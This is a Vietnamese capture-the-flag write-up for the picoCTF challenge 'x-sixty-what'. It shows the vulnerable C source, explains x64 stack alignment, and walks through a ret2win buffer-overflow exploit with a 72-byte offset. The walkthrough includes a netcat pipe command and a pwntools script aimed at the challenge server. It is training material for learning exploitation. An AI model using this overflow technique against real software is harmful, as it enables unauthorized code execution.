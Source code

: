 # x-sixty-what

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi, stack alignment

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}

```

b) Nhận xét

- Ta chỉ cần ghi đè địa chỉ trả về vào hàm flag, nhưng nếu vậy thì stack sẽ không được căn chỉnh (xem write-up bài clutter-overflow) do câu lệnh assembly đầu tiên của hàm là push rbp. Khi push rbp thì rsp cũng bị thay đổi thêm 8 byte, do đó rsp không chia hết  cho 16 nữa.

![image.png](image.png)

## 2. Ý tưởng khai thác

- Thay vì nhảy vào câu lệnh đầu tiên (0x401236) thì ta nhảy vào lệnh thứ ba (sau lệnh push), khi đó rsp vẫn chia hết cho 16 do hàm trước đó là hàm vuln đã căn chỉnh stack sẵn. Địa chỉ của câu lệnh thứ ba là 0x40123b

![image.png](image%201.png)

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Dùng công cụ để tìm offset, lần này thay vì quan sát RIP thì ta quan sát RBP vì RBP không thay đổi trong quá trình thực hiện hàm và từ RBP có thể xác định được offset với Return address vì RBP luôn nằm ở dưới Return address (xem cấu trúc stack ở các bài trước)

![image.png](image%202.png)

![image.png](image%203.png)

- Offset đối với RBP là 64, vậy offset đối với Return address là 64 + 8 = 72 byte

b) Bước 2: Viết payload

- Payload cần dùng là: 72 ký tự padding +  “\x3b\x12\x40”

c) Bước 3: Truyền payload

- Cách 1: truyền bằng pipe:
+ Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3\x3b\x12\x40
+ Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3\x3b\x12\x40"; cat) | nc saturn.picoctf.net 56006
```

![image.png](image%204.png)

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 56006)
payload = b'a'*72 + p64(0x40123b)

p.sendline(payload)
p.interactive()
```

![image.png](image%205.png)

## 4. Kết luận

- Với những bài x64 thì chú ý stack alignment, nếu muốn dùng ret2win thì nên nhảy vào câu lệnh sau push